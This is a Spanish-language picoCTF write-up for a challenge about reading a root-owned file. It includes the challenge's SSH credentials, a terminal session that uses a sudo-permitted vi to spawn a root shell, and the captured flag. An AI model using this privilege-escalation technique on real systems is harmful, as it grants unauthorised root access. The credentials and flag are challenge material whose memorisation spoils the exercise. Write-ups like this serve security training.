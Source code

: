 ## Descripción 
Can you read files in the root file?The system admin has provisioned an account for you on the main server:`ssh -p 62353 picoplayer@saturn.picoctf.net`Password: `j4ks-9nxB-`Can you login and read the root file?

Hint:
1. What permissions do you have?
## Solución 1

Con consola linux
Nos conectamos al servidor mediante ssh y usamos cd  / y ls para ver el contenido
Después nos metemos al sudo l-para tener más permisos y nos dice que podríamos usar unos comandos el que nos interesa es el vi, luego buscamos comandos que usen vi y copiamos uno que nos funcione para lo que necesitemos para entrar con más privilegios y ahí entramos al root y vemos el contenido y sacamos la flag con un cat

```
vSalazarZ-picoctf@webshell:~$ ssh -p 65471 picoplayer@saturn.picoctf.net
The authenticity of host '[saturn.picoctf.net]:65471 ([13.59.203.175]:65471)' can't be established.
ED25519 key fingerprint is SHA256:HKm/Bw1C+mhj23vO8tXULrgLFYvzP6gQH2IwgUiQTok.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:8: [hashed name]
    ~/.ssh/known_hosts:10: [hashed name]
    ~/.ssh/known_hosts:11: [hashed name]
    ~/.ssh/known_hosts:12: [hashed name]
    ~/.ssh/known_hosts:13: [hashed name]
    ~/.ssh/known_hosts:14: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[saturn.picoctf.net]:65471' (ED25519) to the list of known hosts.
picoplayer@saturn.picoctf.net's password: 
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 6.5.0-1023-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

picoplayer@challenge:~$ cd /
picoplayer@challenge:/$ ls
bin  boot  challenge  dev  etc  home  lib  lib32  lib64  libx32  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var
picoplayer@challenge:/$ sudo -l
[sudo] password for picoplayer: 
Matching Defaults entries for picoplayer on challenge:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoplayer may run the following commands on challenge:
    (ALL) /usr/bin/vi
picoplayer@challenge:/$ sudo vi -c ':!/bin/sh' /dev/null

# ls
bin  boot  challenge  dev  etc  home  lib  lib32  lib64  libx32  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var
# cd root
# ls
# ls -al
total 12
drwx------ 1 root root   23 Aug  4  2023 .
drwxr-xr-x 1 root root   51 Feb 22 02:59 ..
-rw-r--r-- 1 root root 3106 Dec  5  2019 .bashrc
-rw-r--r-- 1 root root   35 Aug  4  2023 .flag.txt
-rw-r--r-- 1 root root  161 Dec  5  2019 .profile
# cat .flag.txt
picoCTF{uS1ng_v1m_3dit0r_021d10ab}
# 

flag: picoCTF{uS1ng_v1m_3dit0r_021d10ab}
```

## Referencias
https://gtfobins.github.io/gtfobins/vi/